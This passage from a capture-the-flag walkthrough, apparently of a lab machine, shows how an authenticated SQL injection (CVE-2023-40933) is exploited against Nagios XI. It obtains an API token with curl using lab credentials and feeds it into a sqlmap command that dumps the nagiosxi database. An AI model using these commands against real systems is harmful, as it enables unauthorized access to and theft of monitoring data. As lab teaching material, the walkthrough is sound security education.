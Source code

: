 
We are now logged in!
![Pasted image 20240714211008.png](/images/Pasted image 20240714211008.png){: .normal }


Since we know what version of nagios core is running on the server we can try to determine the nagios XI version. Nagios 4.4.13 was released on 6/1/2023, this would make the nagios XI version 5.9.3.
```
nagios-4.4.13	10.82M	06/1/23 10:00 #<https://assets.nagios.com/downloads/nagioscore/versions.php>
xi-5.9.3	76.55M	02/1/23 06:53	#<https://assets.nagios.com/downloads/nagiosxi/versions.php>
```

Looking around for vulnerabilities we find a possible SQLi exploit.
```
<https://www.cvedetails.com/cve/CVE-2023-40933/>
<https://outpost24.com/blog/nagios-xi-vulnerabilities/>
```

However we can’t seem to perform our attack without a proper token first. We can get an authentication token to do the SQL injection using the following command: [Link](https://support.nagios.com/forum/viewtopic.php?f=16&t=58783).
```bash
┌──(kali㉿kali)-[~]
└─$ curl -XPOST -k -L '<http://10.10.11.248/nagiosxi/api/v1/authenticate?pretty=1>' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=5'
{
    "username": "svc",
    "user_id": "2",
    "auth_token": "5b9da32ad561add7d0b0138df6a0b6a03819d0b8",
    "valid_min": 5,
    "valid_until": "Sun, 14 Jan 2024 05:06:22 -0500"
}
```

We can use this token on Nagios XI to get SQLi: [Link](https://outpost24.com/blog/nagios-xi-vulnerabilities/).
```
When a user acknowledges a banner, a POST request is sent to 
`/nagiosxi/admin/banner_message-ajaxhelper.php` with the POST data consisting 
of the intended action and message ID – `action=acknowledge banner message&id=3`.
```

This makes our request:
```
/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3
```

Use sqlmap to dump the database:
```bash
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "<https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl> -ksX POST <https://nagios.monitored.htb/nagiosxi/api/v1/authenticate> -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'`" --level 5 --risk 3 -p id --batch -D nagiosxi --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.12#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   <https://sqlmap.org>

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:35:10 /2024-01-14/
```
